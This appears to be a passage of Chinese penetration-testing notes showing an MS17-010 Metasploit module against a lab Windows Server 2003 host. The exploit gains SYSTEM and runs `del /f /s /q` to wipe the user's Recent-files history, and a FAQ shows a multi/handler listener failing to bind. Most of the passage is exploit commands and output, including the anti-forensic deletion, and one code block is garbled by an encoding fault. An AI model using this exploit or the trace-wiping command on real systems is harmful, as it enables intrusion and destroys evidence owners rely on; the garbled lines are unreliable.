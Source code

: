 ```bash

c:\>del /f /s /q “%userprofile%\Recent*.*
del /f /s /q ��?userprofile%\Recent*.*
�ļ�����Ŀ¼���������﷨����ȷ��

```



**清除历史**：`del /f /s /q “%userprofile%\Recent*.*`

*：就是要清除 `C:\Users\[userName]\Recent` 里的所有内容

```
msf6 auxiliary(admin/smb/ms17_010_command) > set command del /f /s /q “%userprofile%\Recent*.*
command => del /f /s /q “%userprofile%Recent*.*
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87d12d60
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Command finished with no output
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "del /f /s /q “%userprofile%Recent*.*":



[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```



## 常见问题

**端口占用**

```bash
msf6 exploit(multi/handler) > run

[-] Handler failed to bind to 192.168.220.137:9999:-  -
[-] Handler failed to bind to 0.0.0.0:9999:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:9999).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > sessions i

Active sessions
===============

No active sessions.
```

